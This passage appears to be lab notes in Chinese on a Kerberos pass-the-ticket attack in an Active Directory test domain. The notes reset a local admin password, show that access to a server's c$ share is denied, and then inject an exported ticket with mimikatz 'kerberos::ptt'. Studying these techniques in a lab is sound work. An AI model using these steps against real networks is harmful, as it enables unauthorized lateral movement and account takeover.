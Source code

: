 ![image](images/SJTKK9zwp.png)

把剛剛eport出來的票卷都丟過去

去AD Win
把local admin換密碼
確保本機用戶

dir \\server2019.lpt.com\c$
會發現不能使用
![image](images/HydPKKMwT.png)

使用cat_mimikatz.exe
kerberos::ptt <*.kirbi 票卷檔名>
![image](images/H1FpYtzPT.png)
